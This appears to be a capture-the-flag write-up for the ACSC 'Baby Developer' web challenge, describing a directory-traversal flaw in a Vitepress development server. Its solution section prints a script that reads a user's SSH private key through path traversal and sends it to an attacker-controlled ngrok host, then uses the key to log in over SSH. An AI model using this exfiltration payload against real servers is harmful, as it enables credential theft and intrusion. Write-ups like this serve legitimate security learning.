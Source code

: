 ```yaml
---
description: >-
  Directory traversal in insecure Vitepress development server leads to
  information disclosure through SSRF
---
```


# Baby Developer

## Description

I made a mobile\(apple watch miniminimini series 1337\) viewer on my personal server..

* `http://baby-developer.chal.acsc.asia:8888/`
* `ssh baby-developer.chal.acsc.asia -p2222`

{% file src="../../.gitbook/assets/baby-developer.tar.gz\_f5f00919ccc94f797a24d1a823a61773.gz" caption="Challenge Files" %}

## Solution

* There is a `genflag` server which you are supposed to SSRF
* However, the user agent is checked so you cant do it directly from `mobile-viewer`
* The pages are rendered as screenshots

```python
@app.route('/flag')
def hello_world():
    if request.remote_addr == dev and 'iPhone' not in request.headers.get('User-Agent'):
        fp = open('/flag', 'r')
        flag = fp.read()
        return flag
    else:
        return "Nope.."
```

From `mobile-viewer`, we need to request `http://genflag/flag` from `website`. This can be done from `/home/stypr/readflag` on `website`.

```text
# Challenge: get flag!
RUN touch /home/stypr/.hushlogin && \
    echo '#include <stdio.h>\r\n#include <stdlib.h>\r\nint main(){FILE *fp;char flag[1035];fp = popen("/usr/bin/curl -s http://genflag/flag", "r");if (fp == NULL) {printf("Error found. Please contact administrator.");exit(1);}while (fgets(flag, sizeof(flag), fp) != NULL) {printf("%s", flag);}pclose(fp);return 0;}' > /home/stypr/readflag.c && \
    gcc -o /home/stypr/readflag /home/stypr/readflag.c && \
    chmod +x /home/stypr/readflag && rm -rf /home/stypr/readflag.c
```

The `website` server runs `yarn dev`, which runs `vitepress dev src`. Refer to the website source: [https://github.com/stypr/harold.kim/blob/main/package.json](https://github.com/stypr/harold.kim/blob/main/package.json)

Vitepress is run on dev mode. I found that this enables CORS, allowing us to perform a CSRF to exfiltrate data. Furthermore, I found that there was a path traversal vulnerability, allowing us to get the SSH key: `http://website/../../../../../home/stypr/.ssh/id_rsa`

From `mobile-viewer`, we can make a request to our attacker site, which contains:

```markup
<script>
    fetch("http://website/../../../../../home/stypr/.ssh/id_rsa")
    .then(resp => resp.text())
    .then(data => fetch('http://0db7-115-66-195-39.ngrok.io/?' + btoa(data)))
</script>
```

Get the private key and SSH into the server to get the flag:

```text
$ ssh stypr@baby-developer.chal.acsc.asia -p2222 -i id_rsa 
ACSC{weird_bugs_pwned_my_system_too_late_to_get_my_CVE}
```

